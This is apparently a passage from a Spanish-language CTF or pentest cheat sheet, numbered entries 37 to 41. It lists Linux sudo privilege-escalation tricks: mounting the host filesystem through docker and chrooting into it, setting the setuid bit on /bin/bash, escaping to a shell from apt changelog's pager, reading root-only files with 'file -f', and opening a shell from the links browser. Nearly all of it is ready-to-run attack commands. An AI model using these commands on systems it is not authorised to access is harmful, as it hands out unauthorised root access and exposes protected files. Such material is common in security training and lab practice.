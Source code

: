37.-	/usr/bin/docker

User firsthacking may run the following commands on be6e17c3b556:
    (ALL) NOPASSWD: /usr/bin/docker


sudo /usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh

-------------------------------------------------------------------------------

38.-	(ALL) NOPASSWD: ALL
                      (ALL : ALL) ALL


User octopus may run the following commands on 868412c835de:
    (ALL) NOPASSWD: ALL
    (ALL : ALL) ALL


sudo chmod u+s /bin/bash
bash -p

-------------------------------------------------------------------------------

39.-	/usr/bin/apt

User john may run the following commands on 3e1d7f4234cf:
    (bobby) NOPASSWD: /usr/bin/apt

ejecutamos
sudo -u bobby /usr/bin/apt changelog apt

solo escribimos
!/bin/bash

presionamos enter

-------------------------------------------------------------------------------

40.-	/usr/bin/file

este binario te permite ver archivo que tiene permisos de lectura solo para root.

ejemplo, supongamos que hay un archivo en /opt/password.txt que tiene permisos de lectura y escritura para root, podemos verlo con:

LFILE=/opt/password.txt
sudo /usr/bin/file -f $LFILE

-------------------------------------------------------------------------------

41.-	/usr/bin/links

(root) NOPASSWD: /usr/bin/links

sudo /usr/bin/links -no-g

presiono la tecla esc

luego en el menú que te aparece, nos vamos a FILE, bajamos y le damos en OS SHELL y listo somos root.
